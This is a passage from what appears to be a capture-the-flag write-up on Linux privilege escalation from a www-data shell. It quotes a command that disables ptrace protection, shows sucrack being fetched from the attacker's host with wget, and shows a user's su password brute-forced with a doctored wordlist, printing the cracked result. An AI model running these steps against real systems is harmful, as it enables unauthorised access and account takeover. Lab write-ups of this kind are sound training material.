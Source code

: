 
> You can temporarily enable ptrace_scope with `echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope` or permanently modifying `/etc/sysctl.d/10-ptrace.conf` and setting `kernel.yama.ptrace_scope = 0`

[Source for the exploit](https://book.hacktricks.xyz/linux-unix/privilege-escalation#reusing-sudo-tokens)

But I can't edit `ptrace_scope` or check the point 2. Dead end.

### 3.2. Lateral Escalation: Password Cracking
Since we do not have `ssh`, we can try bruteforcing `sudo su`. We can use the wordlist we saw during steganography bruteforcing.

Download the sucrack files. [.deb from here](http://archive.ubuntu.com/ubuntu/pool/universe/s/sucrack/sucrack_1.2.3-4_amd64.deb
).

Transfer this again.

```
www-data@ubuntu:/tmp$ wget 10.17.8.184/sucrack_1.2.3-4_amd64.deb
wget 10.17.8.184/sucrack_1.2.3-4_amd64.deb
--2021-06-03 05:01:53--  http://10.17.8.184/sucrack_1.2.3-4_amd64.deb
Connecting to 10.17.8.184:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16670 (16K) [application/vnd.debian.binary-package]
Saving to: 'sucrack_1.2.3-4_amd64.deb'

sucrack_1.2.3-4_amd 100%[===================>]  16.28K  74.2KB/s    in 0.2s    

2021-06-03 05:01:53 (74.2 KB/s) - 'sucrack_1.2.3-4_amd64.deb' saved [16670/16670]

www-data@ubuntu:/tmp$ dpkg -x sucrack_1.2.3-4_amd64.deb sucrack
dpkg -x sucrack_1.2.3-4_amd64.deb sucrack
```

I tried with the wordlist we have aleady, but it was taking too long. According to THM Discord, it should not. Maybe I'm doing something wrong?

I realised that `123adana` is a prefix we saw for both the above passwords. Maybe the password is also starting from that? I looked it in the list and there was only one match. Did not work.

How about pre-pending `123adana` to all the words?

`sed 's/^/123adana/' /tmp/wordlist.txt > newlist.txt`

And I tried it again ...

After a long long time, I finally get

```
www-data@ubuntu:/tmp/sucrack/usr/bin$ ./sucrack -w 128 -u hakanbey newlist.txt
<k/usr/bin$ ./sucrack -w 128 -u hakanbey newlist.txt
password is: 123adanasubaru
www-data@ubuntu:/tmp/sucrack/usr/bin$ su hakanbey
Password: 123adana{mmm tasty}
```
